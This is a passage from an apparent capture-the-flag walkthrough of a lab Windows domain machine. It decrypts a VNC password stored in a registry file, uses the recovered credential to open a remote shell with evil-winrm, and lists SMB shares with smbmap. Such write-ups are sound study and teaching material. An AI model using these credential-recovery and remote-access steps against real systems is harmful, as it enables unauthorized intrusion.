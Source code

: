 * We see a Username of <mark style="color:yellow;">TempAdmin</mark>

VNC Install.reg

```
cat VNC\ Install.reg

"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

* We see a password in hex. Let's decode it.
* First, to decode we need to use a tool called vncpasswd.py

{% embed url="https://github.com/trinitronx/vncpasswd.py" %}
GitHub Repo
{% endembed %}

### vncpasswd.py

Usage

* Remove the commas

```
./vncpasswd.py -d -H 6bcf2a4b6e5aca0f
Decrypted Bin Pass= 'sT333ve2'
Decrypted Hex Pass= '7354333333766532'
```

* We now get a password of <mark style="color:yellow;">sT333ve2</mark>

### Evil-WinRM

```
evil-winrm -i 10.129.54.147 -u s.smith
Enter Password: sT333ve2

*Evil-WinRM* PS C:\Users\s.smith\Documents>
```

* <mark style="color:yellow;">We are now s.smith!</mark>

### smbmap

```
smbmap -H 10.129.54.147 -u s.smith -p sT333ve2

[+] IP: 10.129.54.147:445       Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  READ ONLY
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

